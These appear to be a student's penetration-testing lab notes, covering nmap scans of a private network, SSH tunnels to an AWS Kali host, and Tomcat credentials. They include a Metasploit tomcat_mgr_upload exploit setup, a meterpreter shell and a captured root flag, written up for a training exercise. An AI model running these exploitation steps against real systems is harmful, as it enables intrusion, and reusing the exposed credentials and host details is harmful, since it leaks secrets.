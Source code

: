 # W1D5 Exercise Notes

Connection command
`ssh -i keyfile.pem kali@ec2-13-40-173-201.eu-west-2.compute.amazonaws.com`

## sExercise 1

Commands executed:

- sudo netdiscover -r 172.16.48.1/16
- sudo netdiscover -r 172.16.48.227/24 -> discovered ssh service
- nmap -sV 172.16.48.1 -> no address found
- nmap -sV 172.16.48.1 -> seems down

⭐️ `sudo nmap -sS -sV -sC -p- 172.16.11.210`

Local IPs Discovered:

- 172.16.0.2
- 172.16.48.1

⭐️ `sudo nmap -sS -sV -sC -p- 172.16.11.210`

22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f2:a6:62:d7:e7:6a:94:be:7b:6b:a5:12:69:2e:fe:d7 (ECDSA)
|_  256 28:e1:0d:04:80:19:be:44:a6:48:73:aa:e8:6a:65:44 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache Tomcat 9.0.53
|_http-title: Apache Tomcat/9.0.53
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

backup zip: @administrator_hi5


## Exercise 2

Commands:
ssh -i keyfile.pem kali@ec2-13-40-173-201.eu-west-2.compute.amazonaws.com -L 8080:172.16.11.210:8080 -L 8081:172.16.11.210:80

ssh -i keyfile.pem kali@ec2-13-40-173-201.eu-west-2.compute.amazonaws.com -L 8080:172.16.48.1:8080 -L 8081:172.16.48.1:80

#AWS global ip: 13.40.173.201

#
<role rolename="manager-gui"/>
<user username="manager" password="melehifokivai" roles="manager-gui"/>

<role rolename="admin-gui"/>
<user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>


meterpreter > pwd
/var/spool/cron

## How to access the shell:
```
mfsconsole

use exploit/multi/http/tomcat_mgr_upload
show options

set RHOSTS 172.16.11.210
set RPORT 8080
set HttpUsername admin
set HttpPassword melehifokivai
```

```root.txt
2fdbf8d4f894292361d6c72c8e833a4b```

